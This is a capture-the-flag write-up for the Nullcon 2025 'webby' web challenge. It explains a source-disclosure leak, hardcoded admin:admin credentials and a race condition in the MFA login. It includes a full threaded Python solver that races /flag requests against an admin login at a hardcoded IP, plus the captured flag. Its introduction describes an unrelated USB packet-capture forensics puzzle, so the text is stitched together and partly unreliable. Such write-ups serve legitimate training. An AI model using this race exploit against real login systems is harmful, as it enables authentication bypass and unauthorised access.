

## webby - Nullcon HackIM CTF Berlin 2025 Write-up



**Challenge:** webby
**Category:** Web
**Points:** 203
**Author:** minouse3

### Introduction
This challenge was a small forensic puzzle involving USB traffic. The story was that a private file had been copied to a USB drive and then deleted, but somehow it could still be recovered from the USB messages that were recorded. We were given a packet capture file, [`usbstorage.pcapng.gz`](assets/files/usbstorage.pcapng.gz), and our goal was to dig through it and recover the lost flag.

### Analyzing the website
When you visit /?source=anything, the app happily returns its own source. That happens in index.GET: it parses query params with i = web.input() and, if i.source exists (any non-empty value), it executes return open(__file__).read(). There’s no path traversal or file choice—__file__ is just “this script”, so you get a straight source disclosure.
```py
class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = login_Form()
        return render.index(f)
```

The leak reveals the routes, file-backed sessions, and the exact flag check. Sessions are persisted in a shelf at /tmp/session.shelf, which means intermediate writes are immediately visible across requests. The flag handler only trusts two keys—loggedIn and username—and does not independently verify MFA status.
```py
session = web.session.Session(app, web.session.ShelfStore(shelve.open("/tmp/session.shelf")))
FLAG = open("/tmp/flag.txt").read()

class flag:
    def GET(self):
        if not session.get("loggedIn", False) or not session.get("username", None) == "admin":
            raise web.seeother('/')
        else:
            session.kill()
            return render.flag(FLAG)
```

Credentials and MFA policy are hardcoded. The app explicitly allows admin:admin, and only admin is subject to MFA; the other users bypass MFA entirely.
```py
def check_user_creds(user,pw):
    users = {
        # Add more users if needed
        'user1': 'user1',
        'user2': 'user2',
        'user3': 'user3',
        'user4': 'user4',
        'admin': 'admin',

    }
    try:
        return users[user] == pw
    except:
        return False

def check_mfa(user):
    users = {
        'user1': False,
        'user2': False,
        'user3': False,
        'user4': False,
        'admin': True,
    }
    try:
        return users[user]
    except:
        return False
```

The vulnerability is in the login flow: after validating credentials, the code first writes loggedIn=True and username=<user> to the session and forces a save; only then, for MFA users, it performs a slow bcrypt-based token generation and later flips loggedIn=False and saves again. During the expensive hashing, the session on disk already says “admin is logged in,” which /flag accepts.
```py
 def POST(self):
        f = login_Form()
        if not f.validates():
            session.kill()
            return render.index(f)
        i = web.input()
        if not check_user_creds(i.username, i.password):
            session.kill()
            raise web.seeother('/')
        else:
            session.loggedIn = True
            session.username = i.username
            session._save()

        if check_mfa(session.get("username", None)):
            session.doMFA = True
            session.tokenMFA = hashlib.md5(bcrypt.hashpw(str(secrets.randbits(random.randint(40,65))).encode(),bcrypt.gensalt(14))).hexdigest()
            #session.tokenMFA = "acbd18db4cc2f85cedef654fccc4a4d8"
            session.loggedIn = False
            session._save()
            raise web.seeother("/mfa")
        return render.login(session.get("username",None))
```

### How to exploit it
The exploitation flow in practice is simple. First, obtain one session cookie by doing a plain GET to /; that sets webpy_session_id and creates the corresponding shelf entry on disk. Keep this exact cookie for all subsequent requests. Next, start a bunch of concurrent requests to /flag using that cookie and do not follow redirects, so each request returns quickly and can be retried fast. Finally, in the same cookie context, submit a login as admin with the password admin—those credentials are explicitly accepted by the challenge’s check_user_creds function. The moment the login handler persists loggedIn=True and username="admin" and then begins the bcrypt work for the MFA token, your background /flag requests will see a valid session and one of them will return the flag page with HTTP 200. If the race misses, simply rerun or increase the number of worker threads; the bcrypt cost factor provides a comfortable window, so it usually succeeds almost immediately. The critical operational details are to reuse the exact same cookie throughout, to avoid letting redirects allocate a new session, and to keep requests tight and parallel so one lands during the hashing window.

```py
import requests, threading, re

BASE = "http://52.59.124.14:5010"

# 1) Get a session cookie
bootstrap = requests.Session()
r = bootstrap.get(f"{BASE}/", allow_redirects=False)
sid = bootstrap.cookies.get("webpy_session_id")
assert sid, "No session cookie set"
cookies = {"webpy_session_id": sid}

stop = threading.Event()
flag_html = {"data": None}

def hit_flag():
    while not stop.is_set():
        try:
            r = requests.get(f"{BASE}/flag",
                             cookies=cookies,
                             allow_redirects=False,
                             timeout=1)
            if r.status_code == 200 and "ENO{" in r.text:
                flag_html["data"] = r.text
                stop.set()
                return
        except Exception:
            pass

# 2) Start multiple threads hammering /flag with the SAME cookie
threads = [threading.Thread(target=hit_flag, daemon=True) for _ in range(16)]
for t in threads: t.start()

# 3) Trigger the race: login as admin (admin/admin)
data = {"username": "admin", "password": "admin", "submit": "Login"}
# IMPORTANT: don’t follow redirects (keep it snappy)
bootstrap.post(f"{BASE}/", data=data, allow_redirects=False)

# 4) Collect result
for t in threads: t.join(timeout=2.5)

if flag_html["data"]:
    m = re.search(r'ENO\{[^}]+\}', flag_html["data"])
    print("FLAG:", m.group(0) if m else "Flag printed but couldn’t parse. See full HTML above.")
else:
    print("Missed the race. Re-run (or bump thread count).")
```

```bash
bash
┌──(minouse3㉿kali)-[~] 
└─$ python3 solver.py 
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```

### Flag
```
ENO{R4Ces_Ar3_3ver1Wher3_Y3ah!!}
```